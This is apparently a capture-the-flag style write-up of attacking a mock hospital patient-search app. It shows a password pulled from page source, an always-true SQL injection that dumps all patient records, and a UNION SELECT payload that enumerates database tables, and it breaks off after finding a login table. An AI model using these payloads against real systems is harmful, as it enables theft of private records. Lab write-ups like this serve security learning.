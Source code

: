 
## Initial discovery

Searching sends a GET request similar to this.

	GET /?patientID=00000&password=
	Host: 10.13.37.4

We get a response stating that we are not authorized.


## Initial discovery

If we use the password found in the source of the HTML file we get information back about the patient.

	GET /?patientID=48898&password=mTvkHrQdaPHLp477
	Host: 10.13.37.4


## Getting More

The patientID field is SQL injectable.

By doing some basic SQL injection we can dump all the patients information
	
	' OR '1' = '1'--

And we find an interesting entry:

	{
		"id": "zzzzzzzzzz",
		"name": "Dan Holmes",
		"street": "TmSZSqLC9pk9cn25",
		"email": "dan@ecoasthospital.com"
	}


## Even More

Let's dump all the tables

	' UNION SELECT TABLE_NAME, COLUMN_NAME, DATA_TYPE, '_' FROM INFORMATION_SCHEMA.COLUMNS--

And we find a particularly juicy one

	{
		"id": "unix_login",
		"name": "username",
		"street": "character varying",
		"email": "_"
	},


## Bingo!

